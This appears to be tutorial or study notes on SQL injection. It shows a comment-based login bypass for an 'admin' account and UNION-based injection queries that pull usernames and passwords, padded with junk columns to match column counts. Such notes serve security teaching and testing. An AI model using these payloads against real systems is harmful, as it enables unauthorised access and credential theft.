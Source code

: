 ### Steps to Bypass Login
1. **Original Query**: 
   ```sql
   SELECT * FROM logins where (username='admin') AND password='hashed_value'
   ```
2. **Modified Query**: 
   ```sql
   SELECT * FROM logins where (username='admin')-- )
   ```

---

# Union Clause 

#### Union Clause
- **Purpose**: Combine results from multiple `SELECT` statements.
- **Usage**: 
  ```sql
  SELECT column1, column2 FROM table1
  UNION
  SELECT column1, column2 FROM table2;
  ```
- **Example**:
  ```sql
  SELECT * FROM ports 
  UNION 
  SELECT * FROM ships;
  ```

#### Even Columns
- **Requirement**: All `SELECT` statements must return the same number of columns.
- **Example**:
  ```sql
  -- This will cause an error:
  SELECT city FROM ports 
  UNION 
  SELECT * FROM ships;
  ```

#### Union Injection
- **Purpose**: Injecting entire SQL queries executed with the original query.
- **Example**:
  ```sql
  SELECT * FROM products WHERE product_id = 'user_input'
  UNION 
  SELECT username, password FROM passwords-- ';
  ```

#### Uneven Columns
- **Solution**: Use "junk" data to balance the number of columns.
- **Example with Junk Data**:
  ```sql
  SELECT * FROM products WHERE product_id = '1' 
  UNION 
  SELECT username, 2 FROM passwords;
  ```
- **Handling More Columns**:
  ```sql
  UNION SELECT username, 2, 3, 4 FROM passwords-- ';
  ```
